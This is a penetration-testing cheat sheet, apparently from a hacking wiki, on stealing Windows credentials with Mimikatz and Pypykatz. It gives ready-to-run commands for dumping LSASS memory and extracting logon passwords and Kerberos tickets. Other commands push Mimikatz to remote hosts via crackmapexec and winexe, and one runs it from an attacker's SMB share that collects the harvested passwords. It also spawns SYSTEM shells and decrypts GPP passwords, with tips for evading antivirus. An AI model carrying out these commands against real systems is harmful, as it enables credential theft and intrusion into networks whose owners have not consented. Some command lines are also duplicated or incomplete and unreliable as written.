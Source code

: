 # Mimikatz and Pypykatz

## LSASS AND MIMIKATZ

#### LSASS

Avoiding running Mimikatz on the target can be a nice solution for stealth You can just dump the LSASS process, get them and parse it locally

```text
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Several dumping methods here [https://kaluche.github.io/posts/2020/09/dumping-credentials-offline/](https://kaluche.github.io/posts/2020/09/dumping-credentials-offline/)

### Mimikatz

If you have an LSASS dump, you can use the minidump module

```text
mimikatz # sekurlsa::minidump lsass.DMP
mimikatz # sekurlsa::logonPasswords /full
```

You can upload mimikatz to a remote machine with smbclient Or you can use crackmapexec Executon may fail but the binary will be uploaded in C:\Windows\mimikatz.exe

```text
crackmapexec IP -u user -p password -M mimikatz
```

Then you can execute remotely through winexe

```text
winexe -U admin%password //IP C:\\Windows\\mimikatz.exe
```

### Password dumping

```text
mimikatz # privilege::debug
mimikatz # sekurlsa::logonPasswords /full
```

In case of Mimikatz is triggered on the target machine, you can try bring it up using network share

```text
sudo python smbserver.py SHARE /home/xxxxx/share_path/
sudo ./venv/bin/crackmapexec smb IP -u "xxx" -p "xxx" -X '\shareip\SHARE\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords /full" exit > \share_ip\SHARE\mimiout$env:computername.txt'
In order to be stealthier, you can even do the same for procdump
sudo ./venv/bin/crackmapexec smb IP -u "xxx" -p "xxx" -X '\share_ip\SHARE\procdump.exe "TODO"'`
```

## Pypykatz

{% embed url="https://github.com/skelsec/pypykatz" %}

Mimikatz implementation in pure Python. At least a part of it :\)In case of mimikatz is trigerred by the target AVCross platform \(only need python3.6\)Live commands need to be ran on live systemsOthers commands can be used for other purposes

### Get LSASS credentials \(+ Kerberos tickets\)

```text
pypykatz live lsa pypykatz live lsa -o  -k 
```

### List users prone to SPNRoast and ASRepRoast

```text
pypykatz live ldap spn pypykatz live ldap asrep
```

### Print all tokens

```text
pypykatz live token list
```

### Spawn a SYSTEM shell

```text
pypykatz live process create
```

### Print registry credentials

```text
pypykatz live registry
```

### List all users ever logged on the target

```text
pypykatz live users list
```

### Gives back the current user in domain:username:SID format

```text
pypykatz live users whoami
```

### Parse mimidump file

```text
pypykatz lsa minidump 
```

### List domain users prone to SPNRoast or ASRepRoast

```text
pypykatz ldap TEST/victim/pw:@10.10.10.2 spn pypykatz ldap TEST/victim/pw:@10.10.10.2 asrep
```

### Decrypt gpp-pass

```text
pypykatz gppass 
```

